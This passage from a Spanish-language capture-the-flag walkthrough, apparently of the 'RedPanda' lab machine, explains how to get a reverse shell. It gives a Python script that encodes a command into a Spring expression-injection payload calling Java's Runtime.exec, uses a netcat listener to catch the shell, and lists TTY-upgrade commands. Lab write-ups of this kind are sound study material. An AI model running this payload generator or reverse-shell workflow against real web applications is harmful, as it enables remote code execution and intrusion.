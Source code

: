 Con esto nos saldra por pantalla el payload a ejecutar:

![Desktop View](/assets/img/RedPanda/Pasted image 20221120001011.png){: width="972" height="589" }
Lo pegamos en el buscador de la pagina web y veremos en la pestaña donde tenemos alojado el server de python como se ha transferido el archivo correctamente.

Ahora levantamos un listener de netcat con:

```python
nc -nlvp 9001
```

Y cambiamos el comando a ejecutar en el programa:

```python
#!/usr/bin/python3

def main():

        command = "bash /tmp/shell.sh" # specify command 
        convert = []

        for x in command:
            convert.append(str(ord(x)))

        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % convert[0]

        for i in convert[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"

        print(payload)

if __name__ == "__main__":
    main()

```

Tambien podemos modificar el codigo para que el comando sea leido por input().

Tras ejecutarle, copiamos el resultado, lo pegamos en la web y ya tenemos en el listener de netcat la reverse shell.

![Desktop View](/assets/img/RedPanda/Pasted image 20221120001336.png){: width="972" height="589" }

Para mejorar la shell y poder hacer `ctrl + C` de una manera normal ponemos en la maquina victima:
```python
script /dev/null -c bash
```
Después ponemos `ctrl + Z`
Y escribimos:
```python
stty raw -echo; fg
```
